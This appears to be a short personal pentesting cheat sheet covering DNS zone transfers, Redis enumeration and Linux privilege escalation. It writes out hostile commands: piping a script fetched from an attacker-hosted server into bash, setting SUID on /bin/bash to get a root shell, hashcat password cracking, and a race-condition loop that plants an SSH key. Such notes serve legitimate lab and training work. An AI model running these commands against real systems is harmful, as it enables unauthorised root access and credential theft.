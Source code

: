 Zone Transfer


```bash
dig axfr @server url
```

## Redis Enum

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

# Linux

## Linpeas
```bash
python3 -m http.server
curl [ip]:8000/linpeas.sh | bash
```

## Priv escalation

```bash
sudo -l
```

Always look for config files and credentials

To find process running as root.
```bash
ps -aux | grep root
```

Cracking password
```sh
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout encrypted_pass > password.txt
hashcat -m 3200 file_with_the_hash_password password.txt
```

Review if this file has something interesting `/etc/autologin`

Changing SUID permisions and running bash
```sh
chmod u+s /bin/bash
/bin/bash -p
```

`Always take a look when a file is running as root but there's no absolute path, we can trick the system to run our code instead.`

Some scripts can even run a command to access X resource and then delete it, we can do a race condition in this case for the script to get our file to run 

```sh
while true ; do echo 'ssh-rsa AAAAB3NzaC1yc... kali@kali' | tee /tmp/ssh-*; done
```

Verify if there's any cronjob running
